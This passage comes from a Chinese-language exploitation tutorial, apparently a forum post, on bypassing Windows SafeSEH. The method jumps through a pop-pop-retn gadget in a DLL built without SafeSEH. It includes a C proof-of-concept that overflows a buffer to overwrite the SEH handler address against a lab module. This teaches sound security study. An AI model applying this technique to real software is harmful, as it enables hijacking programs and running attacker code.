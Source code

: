 此时运行程序，则 ShellCode 就会顺利执行。  

4. 利用未启用 SafeSEH 模块绕过 SEH
-------------------------

当异常处理函数指向的地址在未开启 SafeSEH 模块的时候，也可以突破 SafeSEH 机制。如下图所示，此时的 SEH_NoSafeSEH_JUMP.dll 没有开启 SafeSEH。那就可以尝试从该模块中查找可以修改 eip 执行的指令，将异常处理函数的地址修改为该指令的地址，就可以实现对程序的劫持。

![](https://bbs.pediy.com/upload/attach/202201/835440_3RWCZFEWVPQAQKD.jpg)

在该模块中的 0x11121012 和 0x11121015 都有 pop + retn 组合的指令，这样的组合可以控制程序的运行。接下来用以下代码查看运行的细节：

```
int main()
{
    char szInput[0x100] = { 0 };
    int iJunkLen = 0x18;
     
    LoadLibrary("SEH_NoSafeSEH_JUMP.dll");              // 导入关闭SafeSEH的模块
    LoadLibrary("user32.dll");                  // MessageBox函数在该中，需要将其导入才可以调用
     
    memset(szInput, 'A', iJunkLen);               // 覆盖异常处理函数之前的数据
    *(PDWORD)(szInput + iJunkLen) = (DWORD)0x11121014;      // 要跳转到的未开启SafeSEH的模块的地址
     
    system("pause");
 
    // 注册异常处理器
    __asm
    {
        push except_handler        // 处理器结构指针
        push fs:[0]            // 前一个结构化异常处理器的地址
        mov fs:[0], esp       // 登记新的结构
    }
     
    test(szInput);
 
 
    // 销毁异常处理器
    __asm
    {
        mov eax, [esp]        // 从栈顶取得前一个异常登记结构的地址
        mov fs:[0], eax           // 将前一个异常结构的地址赋给
        add esp, 8            // 清理栈上的异常登记结构
    }
 
    system("pause");
 
    return 0;
}

```

运行程序以后，使用调试器对其进行附加，在程序执行完 strcpy 的时候可以看到异常处理函数地址已经被修改为未开启 SafeSEH 的模块的地址  
